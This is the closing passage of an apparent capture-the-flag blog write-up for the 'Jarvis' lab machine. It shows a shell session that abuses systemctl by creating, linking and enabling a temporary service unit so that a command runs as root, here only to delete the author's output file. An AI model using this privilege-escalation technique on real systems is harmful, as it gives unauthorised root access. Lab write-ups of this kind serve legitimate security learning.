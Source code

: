 {% endhighlight %}

<p>Victory! With that Jarvis is in the books.</p>

<h1>Post Root Cleanup</h1>

<p>I wouldn't be a good fellow hacker if I just left the root flag laying around like that. Once completed I reran the systemcl exploit changing the command to clean up after myself.</p>

{% highlight shell %}
pepper@jarvis:/tmp$ TF=$(mktemp).service
pepper@jarvis:/tmp$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "rm /tmp/output1"
> [Install]
> WantedBy=multi-user.target' > $TF
pepper@jarvis:/tmp$ systemctl link $TF
Created symlink /etc/systemd/system/tmp.s6W7MgAVfQ.service → /tmp/tmp.s6W7MgAVfQ.service.
pepper@jarvis:/tmp$ systemctl enable --now $TF
Created symlink /etc/systemd/system/multi-user.target.wants/tmp.s6W7MgAVfQ.service → /tmp/tmp.s6W7MgAVfQ.service.
pepper@jarvis:/tmp$ ls -latr
{% endhighlight %}

<p>Thanks folks. Until next time.</p>
